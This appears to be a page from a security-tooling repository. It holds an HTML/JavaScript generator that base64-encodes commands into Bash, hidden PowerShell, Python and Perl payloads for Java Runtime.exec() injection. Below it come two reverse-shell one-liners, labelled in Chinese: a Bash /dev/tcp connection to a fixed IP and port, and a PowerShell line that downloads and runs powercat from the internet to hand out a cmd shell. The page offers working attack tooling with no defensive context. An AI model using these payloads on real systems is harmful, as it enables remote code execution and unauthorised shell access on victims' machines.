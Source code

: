 ```yaml
---
layout: page
title: Shell
---
```

<!DOCTYPE html>
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>java.lang.Runtime.exec() Payload</title>
</head>
<body>
<h1>java.lang.Runtime.exec() Payload</h1>
<input type="radio" id="bash" name="option" value="bash" onclick="processInput();" checked=""><label for="bash">Bash</label>
<input type="radio" id="powershell" name="option" value="powershell" onclick="processInput();"><label for="powershell">PowerShell</label>
<input type="radio" id="python" name="option" value="python" onclick="processInput();"><label for="python">Python</label>
<input type="radio" id="perl" name="option" value="perl" onclick="processInput();"><label for="perl">Perl</label><p></p>
<p><textarea rows="10" style="width: 100%; box-sizing: border-box;" id="input" placeholder="Type input here..."></textarea>
<textarea rows="5" style="width: 100%; box-sizing: border-box;" id="output" onclick="this.focus(); this.select();" readonly=""></textarea></p>
<script>
  var taInput = document.querySelector('textarea#input');
  var taOutput = document.querySelector('textarea#output');
    function processInput() {
        var option = document.querySelector('input[name="option"]:checked').value;
            switch (option) {
              case 'bash':
                taInput.placeholder = 'Type Bash here...'
                taOutput.value = 'bash -c {echo,' + btoa(taInput.value) + '}|{base64,-d}|{bash,-i}';
                break;
              case 'powershell':
                taInput.placeholder = 'Type PowerShell here...'
                poshInput = ''
                for (var i = 0; i < taInput.value.length; i++) { poshInput += taInput.value[i] + unescape("%00"); }
                taOutput.value = 'powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc ' + btoa(poshInput);
                break;
              case 'python':
                taInput.placeholder = 'Type Python here...'
                taOutput.value = "python -c exec('" + btoa(taInput.value) + "'.decode('base64'))";
                break;
              case 'perl':
                taInput.placeholder = 'Type Perl here...'
                taOutput.value = "perl -MMIME::Base64 -e eval(decode_base64('" + btoa(taInput.value) + "'))";
                break;
              default:
                taOutput.value = ''
            }
        if (!taInput.value) taOutput.value = '';
    }
taInput.addEventListener('input', processInput, false);
</script>

<b>Bash反弹命令：</b>
<p style="color:red;">bash -i &gt;&amp; /dev/tcp/192.168.100.1/88 0&gt;&amp;1</p>
<br>
<b>PowerShell反弹命令：</b>
<p style="color:red;">powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c IP -p 端口 -e cmd</p>
<br>
</body>
</html>


